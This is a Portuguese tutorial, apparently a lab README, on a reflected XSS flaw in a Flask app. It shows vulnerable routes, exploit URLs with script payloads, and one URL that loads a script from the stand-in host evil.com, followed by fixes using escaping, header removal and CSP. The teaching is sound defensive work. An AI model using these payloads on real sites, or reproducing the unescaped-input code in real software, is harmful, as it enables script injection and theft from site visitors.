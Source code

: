## 🔹 Como a vulnerabilidade ocorre?

No código fornecido:

```python
@app.route('/', methods=['GET', 'POST'])
def home():
  user_input = request.form.get('reflected', '')
  resp = make_response(render_template('index.html', user_input=user_input))
  resp.headers['X-XSS-Protection'] = '0'
  return resp

@app.route('/search/<path:title>')
def search(title):
  resp = make_response(render_template('search.html', title=title))
  resp.headers['X-XSS-Protection'] = '0'
  return resp
```

### Problemas:

1. **Entrada do usuário (`user_input` e `title`) é inserida diretamente no template sem escape.**
   Isso permite injetar HTML/JS, como:

   ```
   /search/<script>alert(1)</script>
   ```

   ou versão URL-encoded:

   ```
   /search/%3Cscript%3Ealert(1)%3C/script%3E
   ```

2. O header **X-XSS-Protection = 0** desativa a proteção de alguns navegadores antigos.

3. O parâmetro `<path:title>` permite que o usuário insira barras (`/`), o que facilita a criação de payloads maliciosos, como:

   ```
   /search/<script src=https://evil.com/payload.js></script>
   ```

---

## 🔹 Como explorar?

✅ Basta acessar uma URL como:

```
http://localhost:5000/search/<script>alert('XSS')</script>
```

✅ Também é possível carregar scripts externos:

```
http://localhost:5000/search/<script src=https://evil.com/payload.js></script>
```

---

## 🔹 Como corrigir?

### ✅ 1. Remover cabeçalho inseguro

Remover as linhas:

```python
resp.headers['X-XSS-Protection'] = '0'
```

### ✅ 2. Usar `escape()` no input do usuário

No topo do código:

```python
from flask import escape
```

E alterar as rotas:

```python
@app.route('/', methods=['GET', 'POST'])
def home():
  user_input = request.form.get('reflected', '')
  user_input = escape(user_input)  # Escapa caracteres perigosos
  return render_template('index.html', user_input=user_input)

@app.route('/search/<path:title>')
def search(title):
  title = escape(title)  # Escapa o título
  return render_template('search.html', title=title)
```

---

## 🔹 Resultado esperado

* Ao acessar `/search/<script>alert(1)</script>`, a página exibirá:

  ```
  &lt;script&gt;alert(1)&lt;/script&gt;
  ```

  e **não executará o código JS**.

---

## 🔹 Melhorias adicionais

✅ Alterar a rota para `'/search/<title>'` (sem `path:`) se não for necessário permitir barras.
✅ Se quiser permitir `/` no parâmetro, manter `path:title` **após escapar a entrada**.
✅ Usar **Content Security Policy (CSP)** para impedir a execução de scripts inline.
